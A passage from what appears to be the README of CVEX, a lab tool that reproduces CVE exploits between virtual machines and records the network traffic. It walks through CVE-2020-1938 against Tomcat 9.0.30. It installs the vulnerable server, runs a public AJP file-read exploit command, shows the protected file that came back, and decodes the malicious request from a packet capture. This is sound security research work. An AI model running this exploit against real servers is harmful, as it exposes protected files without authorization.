changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini records/CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu1:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Before testing if the whole thing works, **delete** the `CVE-2020-1938/ubuntu1` and `CVE-2020-1938/ubuntu2` snapshots, otherwise CVEX will keep using them:
![Delete CVE-2020-1938/ubuntu1 snapshot](img/delete_CVE-1234-56789_ubuntu1.png)

Fire it all up:
```
~/CVEX$ cvex records/CVE-2020-1938

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-2020-1938/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook records/CVE-2020-1938/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-2020-1938/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook records/CVE-2020-1938/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside [records](records) with the following infrastructure:
```
records/CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

Use Git LFS (Large File Storage) for big files.

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

